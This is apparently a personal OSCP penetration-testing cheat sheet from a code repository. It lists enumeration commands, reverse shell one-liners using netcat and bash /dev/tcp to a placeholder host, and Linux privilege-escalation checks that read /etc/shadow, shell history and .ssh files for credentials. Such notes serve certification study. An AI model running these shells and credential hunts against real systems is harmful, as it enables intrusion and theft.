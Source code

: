 # OSCP

## Enumeration Tools

- Nmap
  ``` 
  nmap -sC -sV <ip>
  ```
- Gobuster
  ``` 
  gobuster dir -t 50 -x php,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <ip>
  ```
- enum4linux 
  ```
  enum4linux -a <ip>
  ```

## Shells

- Ways to get shell
  ```
  nc <ip>:<port> -e /bin/bash
  bash -i &>/dev/tcp/<ip>/<port> <&1
  ```
- Catch Shell
  ```
  nc -lvnp <port>
  ```

## Privilege Esclation

- Service Exploit
  ```
  service --status-all
  ```
- File permissions
  ```
  /etc/passwd
  /etc/shadow
  /etc/crontab
  /etc/cron.d/*
  ```
- Sudo 
  ```
  sudo -l 
  > then use https://gtfobins.github.io
  ```
- Cron
  ```
  cat /etc/crontab
  > Look for jobs and files that are being ran
  > Also look for the PATH variable to see if there is any realtive directory files and a path directory you can write to
  ```
- SUID 
  ```
  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
  > Look for know exploits, Shared Object Injection, and /usr/bin/systemctl
  ```
- Command History 
  ```
  cat ~/.*history | less
  ```
- Config files
  ```
  ls -la /home/<user>/
  > Look for .ssh and other config-type filese that could contain password or hashes
  ```
- Kernel Exploits
  ```
  uname -a
  ```

## Other

- Other People Lists
  ```
  https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
  ```
